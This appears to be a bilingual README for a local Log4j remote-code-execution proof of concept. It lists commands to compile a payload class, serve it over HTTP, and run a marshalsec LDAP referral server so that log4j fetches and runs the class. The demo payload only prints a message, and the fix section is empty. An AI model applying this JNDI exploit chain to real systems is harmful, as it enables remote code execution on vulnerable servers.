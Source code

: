 

### Steps
1. 【Important】***Move*** Log4jRCE.java to /home/remote/Log4jRCE.java, or any other directories except apache-log4j-poc.

2. Compile Log4jRCE.java and start http server
   1. `cd /home/remote`
   2. `javac Log4jRCE.java`
   3. start http server，python or php，`php -S 127.0.0.1:8888`

3. Start ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. start ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
   
4. Start log4j.java, then you can see `I am Log4jRCE from remote!!!`


### 触发步骤
1. 【重要】将Log4jRCE.java **挪出** 当前项目目录，比如挪到/home/remote/Log4jRCE.java，不然log4j.java运行时会读取到本地的Log4jRCE.java，就不走http远程下载了！

2. 编译Log4jRCE.java并启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 127.0.0.1:8888`

3. 启动ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
4. 启动log4j.java，然后就会发现命令行出现了`I am Log4jRCE from remote!!!`。底层就是会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：
